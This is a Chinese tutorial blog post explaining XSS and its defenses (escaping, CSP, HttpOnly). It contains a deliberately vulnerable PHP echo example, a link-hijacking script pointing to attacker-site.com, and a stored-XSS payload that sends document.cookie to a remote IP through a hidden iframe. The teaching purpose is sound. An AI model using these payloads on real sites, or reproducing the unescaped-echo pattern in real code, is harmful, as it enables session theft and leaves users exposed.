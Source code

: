 # XSS 跨站脚本攻击


---

随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是应用程序能够根据用户环境和用户请求，输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

##什么是 XSS
XSS 是一种常见的 web 安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS 涉及到三方，即攻击者、客户端与Web应用。XSS 的攻击目标是为了盗取存储在客户端的 cookie 或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

**总之，XSS 能做用户使用浏览器能做的一切事情。包括获取用户的 cookie 等重要隐私信息的操作。另外，同源策略无法保证不受 XSS 攻击，因为此时攻击者就在同源之内**

##XSS 工作原理
XSS通常可以分为两大类：

- 客户端型
- 服务端型

无论是哪一种 XSS，其目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）- 用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

###客户端型 xss 攻击

客户端型 xss 攻击是一次性的，仅对当次的页面访问产生影响。客户端型 xss 攻击要求用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户游览器执行，从而达到攻击目的。

假设有以下index.php页面：
```
<?php
$name = $_GET['name'];
echo "Welcome $name<br>";
echo "<a href="http://www.cnblogs.com/bangerlee/">Click to Download</a>";
?>
```
该页面显示两行信息：

从URI获取 'name' 参数，并在页面显示
显示跳转到一条URL的链接
这时，当攻击者给出以下URL链接：
```
index.php?name=guest<script>alert('attacked')</script>
```
当用户点击该链接时，将产生以下html代码，带'attacked'的告警提示框弹出：
```
Welcome guest
<script>alert('attacked')</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```

除了插入alert代码，攻击者还可以通过以下URL实现修改链接的目的：

```
index.php?name=
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
```
当用户点击以上攻击者提供的URL时，index.php页面被植入脚本，页面源码如下：
```
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```
用户再点击 "Click to Download" 时，将跳转至攻击者提供的链接。

##服务端型 XSS 攻击
服务端型的 XSS 攻击与客户端型的运行原理类似。 其本质上是注入攻击。区别在于服务端型的恶意代码可以复用，并且不需要引诱用户点击某个连接。

还记得之前浏览器同源策略的知识吗？
浏览器的同源策略虽然对 ajax 请求做了限制，现代浏览器对于某些 xss 而已代码也做了过滤。但是，对于服务端返回的嵌入式资源的跨域交互是允许的！

黑客将将恶意代码通过某个操作，写入被攻击服务器的数据库中，接着在某个数据列表展示页面中通过嵌入 js 代码，迫使用户的浏览器执行恶意 javascript 代码来达到 XSS 攻击的目的。
就像下面这样：
```
// 用 <script type="text/javascript"></script> 包起来放在评论中

(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);

```
##如何避免 XSS 攻击
- 对于任何用户输入的信息，入库之前都要进行转义。
- 使用浏览器自带的 xss filter
现代浏览器都对反射型xss有一定的防御力，其原理是检查url和dom中元素的相关性。但这并不能完全防止反射型xss。另外，浏览器对于存储型xss并没有抵抗力，原因很简单，用户的需求是多种多样的。所以，抵御xss这件事情不能指望浏览器。
- CSP(Content Security Policy)
从原理上说防止xss是很简单的一件事，但实际中，业务代码非常多样和复杂，漏洞还是是不是会出现。 CSP 并不是用来防止xss攻击的，而是最小化xss发生后所造成的伤害。事实上，除了开发者自己做好xss转义，并没有别的方法可以防止xss的发生。CSP可以说是html5给web安全带来的最实惠的东西。。CSP的作用是限制一个页面的行为不论是否是javacript控制的。如何引入CSP呢？

假设现在需要完成一个只允许脚本从本源加载资源的设置，则有两种方式。

*通过response头*
```Content-Security-Policy: script-src ‘self’```
*通过HTML的META标签*
```<meta http-equiv=”Content-Security-Policy” content=”script-src ‘self'”>```
*CSP 策略常用限制功能*
```
base-uri : 限制这篇文档的uri  
child-src ：限制子窗口的源(iframe,弹窗等),取代frame-src  
connect-src ：限制脚本可以访问的源  
font-src : 限制字体的源  
form-action : 限制表单能够提交到的源  
frame-ancestors : 限制了当前页面可以被哪些页面以iframe,frame,object等方式加载  
frame-src ：deprecated with child-src,限制了当前页面可以加载哪些源，与frame-ancestors对应 
img-src : 限制图片可以从哪些源加载  
media-src : 限制video, audio, source, track 能够从哪些源加载  
object-src ：限制插件可以从哪些源加载  
sandbox ：强制打开沙盒模式

```

CSP是一个强大的策略，几乎可以限制了所有能够用到的资源的来源。使用好CSP可以很大成都降低XSS带来的风险
CSP 目前有两版，CSP1 和CSP2， 两版的支持状态可以在 http://caniuse.com/#search=csp 中查到。

- Http-Only
使用 http-only 保护cookie。可以保证即使发生了xss，用户的cookie也是安全的。使用http-only 保护的cookie是不会被 javascript 读写的。所以无论是客户端还是服务端的 XSS 攻击，都无法通过 js 获取到用户的 cookie 信息。


##总结
XSS 与 CSRF 攻击都是属于高危攻击手段。即使是在现代浏览器、同源策略以及 html5 的强大防线下，他们依然能够对 web 应用产生巨大的危害。
在开发 web 应用时，应该合理利用 http-only、CSP 策略、以及用户输入信息转义，能够将 XSS 与 CSRF 的风险降到最低。

---

Copyright 2017/08/15 by Chuck Lin

#####参考链接
- [避免 SQL 注入](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.4.md), by wuyuanwei
- [Web 攻击与防护](http://liuwanlin.info/webgong-ji-yu-fang-hu/), by liuwulin
- [浏览器的同源策略](https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy)
- [总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
- [XSS 攻击入门](http://www.cnblogs.com/bangerlee/archive/2013/04/06/3002142.html)
- [关于Web安全，99%的网站都忽略了这些](https://blog.wilddog.com/?p=290), by wilddog
- [预防跨站点请求伪造：了解浏览器选项卡中的隐藏危险](https://www.ibm.com/developerworks/cn/web/se-appscan-detect-csrf-xsrf/)
- [CSRF 攻击的应对之道](http://www.importnew.com/5839.html)

若文章有幸帮到了您，您可以捐助我，以鼓励我写出更棒的作品！
![alipay.jpg-17.7kB][1]![wechat.jpg-16.7kB][2]


[1]: http://static.zybuluo.com/mikumikulch/6g65s5tsspdmsk87a8ariszo/alipay.jpg
[2]: http://static.zybuluo.com/mikumikulch/rk5hldgo4wi9fv23xu3vm8pf/wechat.jpg



